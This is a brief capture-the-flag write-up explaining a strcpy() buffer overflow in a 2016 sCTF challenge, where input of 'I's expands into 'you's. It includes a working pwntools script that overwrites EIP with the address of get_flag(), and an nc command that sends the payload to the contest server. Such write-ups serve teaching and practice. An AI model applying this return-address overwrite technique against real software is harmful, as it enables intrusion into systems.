 ### Solved by superkojiman

This binary uses fgets() to receive 32 bytes of input from the user, and later on, uses strcpy() to copy that input to another buffer. We can't overflow the buffer unless we send "I"s in our input. This is because a replace() function converts "I"s into "you"s, and 21 "I"s converted to "you"s will overflow the buffer and overwrite EIP.

There's a function called get_flag(), that returns the flag using system("cat flag.txt"). It's at address 0x8048f0d. So we just overwrite EIP with that and we should get the flag: 

```
#!/usr/bin/env python
from pwn import *
buf = ""
buf += "I"*21                   # these get converted to "you"
buf += "A"                      # used for alignment
buf +=  p32(0x8048f0d)          # address of get_flag()
open("in.txt", "w").write(buf)
```

Against the server:

```
# ./sploit.py
# cat in.txt | nc problems2.2016q1.sctf.io 1337
sctf{strcpy_was_a_mistake}
```
